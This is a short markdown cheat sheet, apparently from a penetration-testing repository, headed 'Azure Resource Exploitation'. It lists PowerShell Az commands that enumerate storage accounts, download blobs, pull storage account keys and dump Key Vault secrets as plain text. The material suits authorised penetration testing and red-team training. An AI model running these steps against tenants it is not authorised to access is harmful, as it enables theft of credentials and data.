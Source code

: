 ## Azure Resource Exploitation
## Storage account
#### List storage accounts
```
Get-AzStorageAccount
```

#### Store context
```
$context = New-AzStorageContext -StorageAccountName <RESOURCE NAME>
```

#### Check if there is a container that is acccessible
```
Get-AzStorageContainer -Context $context
```

#### List blobs
```
Get-AzStorageBlob -Container <NAME> -Context $context
```

#### Retrieve files
```
Get-AzStorageBlobContent -Container <NAME> -Context $context -Blob <NAME> -Verbose
```

#### Access Storage Account
- https://azure.microsoft.com/en-us/products/storage/storage-explorer/
- To connect with a account use the Subcription button.

#### Check if you can access storage account keys
```
Get-AzStorageAccountKey -name <NAME OF STORAGE> -resourcegroupname <NAME>
```

#### Connect to the storage account with "Storage Explorer" using the account name and account keys

## Key Vault
#### List key vaults
```
Get-AzKeyVault
```

#### Get info about a specific key vault
```
Get-AzKeyVault -VaultName <VAULT NAME>
```

#### List the saved credentials
```
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -AsPlainText
```
